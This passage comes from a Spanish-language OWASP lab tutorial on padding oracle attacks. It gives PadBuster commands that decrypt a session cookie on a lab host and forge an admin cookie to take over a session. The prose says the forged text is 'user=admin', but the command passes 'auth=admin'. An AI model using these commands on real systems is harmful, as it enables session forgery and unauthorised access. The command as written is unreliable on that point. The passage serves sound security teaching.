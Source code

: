 Para descifrarla, se harpa uso de la herramienta PadBuster:

```bash
padbuster http://192.168.0.101/index.php 
W7DiHKZCrPnqtKI1qzuduPpHMsIgqMEM 8 -cookies 
'auth=W7DiHKZCrPnqtKI1qzuduPpHMsIgqMEM'

-cookie # Se indica una cookie con su nombre y valor 
# (esto se verifica en la misma web)

#----#
padbuster <URL> <DatoCifrado> <BlockSize> [options]

<BlockSize> # En el esquema CBC, el tamaño del bloque debe 
# ser un múltiplo de 8 bits, o 1 byte
```

Al ejecutar el comando, se muestra la siguiente pantalla de diálogo, aquí lo recomendable es seleccionar el ID con doble asterisco (**):

![Untitled](../assets/OWASP-TOP-10/Padding Oracle/Untitled 7.png)

Una vez finalizado el programa se ve cómo desencriptó con éxito la cookie:

![Untitled](../assets/OWASP-TOP-10/Padding Oracle/Untitled 8.png)

Esto significa que la representación de la cookie “W7DiHKZCrPnqtKI1qzuduPpHMsIgqMEM” en texto plano es: “user=bry4n” con lo cual ahora se podría pensar que el valor de user corresponde al nombre de usuario logueado.

Sabiendo esto, ahora se podría modificar la cookie sesión para que en lugar de decir: user=bry4n, diga un nombre de usuario válido de administrador, en este caso el objetivo es loguearse como el usuario “admin” por lo que ahora se creará una nueva cookie de sesión cifrada con el texto “user=admin” de la siguiente forma:

```bash
padbuster http://192.168.0.101/index.php 
W7DiHKZCrPnqtKI1qzuduPpHMsIgqMEM 8 -cookies 
'auth=W7DiHKZCrPnqtKI1qzuduPpHMsIgqMEM' -plaintext 
'auth=admin'

-plaintext # Servirá para crear una nueva cookie de sesión 
# con el texto especificado
```

El resultado será una nueva cookie de sesión la cual se usará para loguearse como el usuario admin cambiando la cookie de la sesión actual por la nueva.

![Untitled](../assets/OWASP-TOP-10/Padding Oracle/Untitled 9.png)

![Untitled](../assets/OWASP-TOP-10/Padding Oracle/Untitled 10.png)

![Untitled](../assets/OWASP-TOP-10/Padding Oracle/Untitled 11.png)

## Burpsuite: Ataque BitFlipper
